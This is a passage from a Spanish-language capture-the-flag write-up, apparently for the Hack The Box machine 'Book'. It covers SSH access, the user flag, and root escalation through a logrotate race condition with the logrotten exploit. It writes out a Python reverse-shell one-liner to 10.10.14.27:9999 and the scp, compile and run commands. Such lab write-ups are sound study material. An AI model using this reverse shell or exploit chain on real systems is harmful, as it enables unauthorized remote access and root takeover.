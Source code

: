 Copiamos y pegamos desde el PDF:

![](/rafaariza/assets/images/book/book13.png)

Le damos permiso 600 a la `key` y accedemos por `SSH` a la máquina.

![](/rafaariza/assets/images/book/book14.png)

## Flag user.txt

```
reader@book:~$ cat user.txt && wc -c user.txt
51c1d4b519----------37f8778f95bc
33 user.txt
```

## Escalada de privilegios

Después de un rato enumerando el sistema, decidí ejecutar el binario `pspy` en orden a enumerar servicios de manera más precisa. Descubrí que estaba siendo ejecutado un programa llamado `logrotate`, lo cual me llamó la atención. De nuevo haciendo una búsqueda por la web encontré que es posible escalar privilegios cuando este binario es ejecutado bajo contexto de `root`. La manera de efectuar este ataque está totalmente documentada en: [**https://github.com/whotwagner/logrotten**](https://github.com/whotwagner/logrotten) y [**aquí**](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges). Para leer sobre los detalles de la `race condition` me remito a este [**artículo**](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition).

Subimos el archivo `logrotten.c` a la máquina víctima:

```
/home/silexx/HTB/book # scp -i id_rsa logrotten.c reader@10.10.10.176:/dev/shm
```

El log está en `/home/reader/backups/access.log`.

Compilamos `logrotten` usando `gcc`:

```
gcc -o logrotten logrotten.c
```

Creamos nuestro payload con una `shell reversa` en `Python` porque sabemos que está instalado tras hacer `which python`.

```
reader@book:/dev/shm$ echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" > payloadfile
```

Corremos el binario `logrotten` y ponemos a la escucha un listener:

```
reader@book:/dev/shm$ ./logrotten -p payloadfile /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
```
